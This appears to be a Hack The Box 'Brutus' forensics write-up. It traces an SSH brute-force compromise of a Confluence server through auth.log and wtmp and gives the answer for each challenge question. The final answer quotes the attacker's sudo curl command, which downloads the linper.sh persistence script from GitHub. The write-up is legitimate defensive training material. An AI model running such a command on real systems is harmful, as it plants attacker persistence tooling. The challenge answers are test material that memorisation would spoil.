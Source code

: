 # HTB Brutus
---
![htb logo](./Images/htb_logo.png)

| Date       | Author          | Difficulty | Challenge Type |
| ---------- | --------------- | ---------- | -------------- |
| 2025-08-31 | Andrew McKenzie | Very Easy  | DFIR           |

---
## Description
This challenge, Brutus, immerses the analyst in a digital forensics investigation of a compromised Confluence server. The primary focus is on analyzing Unix/Linux authentication logs (`auth.log` and `wtmp`) to trace the attacker's activities, from the initial brute-force SSH attack to post-compromise actions like privilege escalation and establishing persistence.
## Scenario
In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.
## Artifacts Provided
- Brutus.zip
	- auth.log
	- utmp.py
	- wtmp

| Filename | Algorithm | Hash                                                             |
| -------- | --------- | ---------------------------------------------------------------- |
| auth.log | SHA256    | 66bdba9ff1688766876deadc19ab5ddb2b0bce6a638bf255586a863260f58b9e |
| auth.log | SHA1      | a05b38ac3814e018d19a71c0a01b23a372e1457b                         |
| auth.log | MD5       | 97506c51ff4174f721c6f50d3cdb9a92                                 |
| utmp.py  | SHA256    | 561f0d4e696f939d6f1ae72e7b072597811612fa1a63302ace3d17d5ca3004ce |
| utmp.py  | SHA1      | cb50a2e7d074be4cef539b862ae9e6ef9640b791                         |
| utmp.py  | MD5       | a27c3cab74044634fee4cc82542cba41                                 |
| wtmp     | SHA256    | dddc32ea65ed9972b0ee9802f95b20d4b6b98c0d5b4930f6d2302f2740458576 |
| wtmp     | SHA1      | 36a1a0de8b1fdf1bde6d15854aefb5d86c3e91e8                         |
| wtmp     | MD5       | c075bb3111080619e0fd9b269f13c910                                 |

## Skills Learned
- Parsing and analyzing Linux `auth.log` for security events.
- Identifying brute-force attacks and the source IP address.
- Pinpointing successful and failed authentication attempts.
- Using Python scripts to parse binary log files like `wtmp`.
- Correlating event data across different log sources (`auth.log` and `wtmp`).
- Investigating post-compromise activities, including user creation and privilege escalation.
- Tracking command execution through `sudo` log entries.
- Mapping attacker TTPs (Tactics, Techniques, and Procedures) to the MITRE ATT&CK framework.
- Utilizing essential command-line tools (`grep`, `cat`, `less`) for log analysis.
## Initial Analysis
The investigation begins with the provided `Brutus.zip` archive. After extraction, we are presented with three key artifacts: `auth.log`, `wtmp`, and a Python parser `utmp.py`.
- **`auth.log`**: A plaintext log file containing records of user logins, authentication attempts, and authorization-related events. This is the primary source for initial review due to its human-readable format.
- **`wtmp`**: A binary file that maintains a historical record of all user logins and logouts. This file requires a specialized parser to be read.
- **`utmp.py`**: A Python script provided to parse the binary `wtmp` file and convert its contents into a readable format.
The initial strategy is to examine `auth.log` to understand the timeline of the attack. We can start by looking for common indicators of a brute-force attack, such as a high volume of failed login attempts from a single IP address in a short period.
## Questions:
1. **Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?**
Piping the logs to less, we can go through the entries without being overwhelmed by the logs. As we start to move down from the initial lines, we can see “invalid user” messages coming in multiple times from a specific IP address: `65.2.161.68`

![image one](./Images/Pasted%20image%2020250831094941.png)

2. **The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?**
Continuing through the logs, we see many usernames/passwords were attempted. But, eventually we find a successful login for `root`.

![image two](./Images/Pasted%20image%2020250831095144.png)

3. **Identify the UTC timestamp when the attacker logged in manually to the server and established a terminal session to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.**
We have been provided with a Python file for reading the WTMP artifacts. Using this and grepping for the IP address we found in question 1, we find the UTC time to be `2024-03-06 06:32:45`.

![image three](./Images/Pasted%20image%2020250831100736.png)

4. **SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?**
Back to the auth logs, we can scroll down until closer to this previous question's time frame. From there we can see the login and the session `37` getting assigned.

![image four](./Images/Pasted%20image%2020250831101142.png)

5. **The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?**
Using the auth logs, we can scroll down shortly after the initial successful login, and we find a new user being added: `cyberjunkie`.

![image five](./Images/Pasted%20image%2020250831134655.png)

6. **What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?**
A quick Google search for this question provides a direct [link](https://attack.mitre.org/techniques/T1136/). This technique has three sub-techniques: local, domain, and cloud. Based on this challenge, we assume a local account: `T1136.001`.

![image six](./Images/Pasted%20image%2020250831134824.png)

7. **What time did the attacker's first SSH session end according to auth.log?**
Running the command `cat auth.log | grep "37"`, we can see at the end of the output that session 37 logged out at `2024-03-06 06:37:24`.

![image seven](./Images/Pasted%20image%2020250831135035.png)

8. **The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?**
Running the command `cat auth.log | grep "cyberjunkie"`, we can review logs specific to this user's activity. We can see that the user performed a few commands, but the command in question is: `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`.

![image eight](./Images/Pasted%20image%2020250831135231.png)